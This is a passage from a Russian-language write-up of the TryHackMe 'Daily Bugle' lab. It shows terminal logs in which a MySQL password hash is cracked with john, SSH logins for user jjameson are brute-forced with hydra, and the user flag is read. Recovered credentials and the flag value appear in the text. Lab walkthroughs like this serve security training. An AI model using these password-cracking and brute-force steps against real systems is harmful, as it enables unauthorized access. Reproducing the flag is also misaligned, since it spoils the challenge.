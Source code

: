 И он подошел к ранее найденному хэшу
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ cat hash_mysql.txt
*B04E65424026AC47B5626445B67352EBEFD78828

┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ cat pass.txt      
nv5uz9r3ZEDzVjNu
spiderman123
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ john --wordlist=./pass.txt hash_mysql.txt
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 SSE2 4x])
No password hashes left to crack (see FAQ)
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ john --show hash_mysql.txt               
?:nv5uz9r3ZEDzVjNu

1 password hash cracked, 0 left
```

И есть 1 пользователь в /home
```bash
ls -la /home
total 0
drwxr-xr-x.  3 root     root      22 Dec 14  2019 .
dr-xr-xr-x. 17 root     root     244 Dec 14  2019 ..
drwx------.  2 jjameson jjameson  99 Dec 15  2019 jjameson
```

Проверяю креды
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ hydra -l jjameson -P ./pass.txt -t 2 ssh://10.10.130.255
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-08 03:43:42
[DATA] max 2 tasks per 1 server, overall 2 tasks, 2 login tries (l:1/p:2), ~1 try per task
[DATA] attacking ssh://10.10.130.255:22/
[22][ssh] host: 10.10.130.255   login: jjameson   password: nv5uz9r3ZEDzVjNu
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-08 03:43:48
```

И получаю доступ по ssh для jjameson
```bash
[jjameson@dailybugle ~]$ ls -la
total 16
drwx------. 2 jjameson jjameson  99 Dec 15  2019 .
drwxr-xr-x. 3 root     root      22 Dec 14  2019 ..
lrwxrwxrwx  1 jjameson jjameson   9 Dec 14  2019 .bash_history -> /dev/null
-rw-r--r--. 1 jjameson jjameson  18 Aug  8  2019 .bash_logout
-rw-r--r--. 1 jjameson jjameson 193 Aug  8  2019 .bash_profile
-rw-r--r--. 1 jjameson jjameson 231 Aug  8  2019 .bashrc
-rw-rw-r--  1 jjameson jjameson  33 Dec 15  2019 user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
```
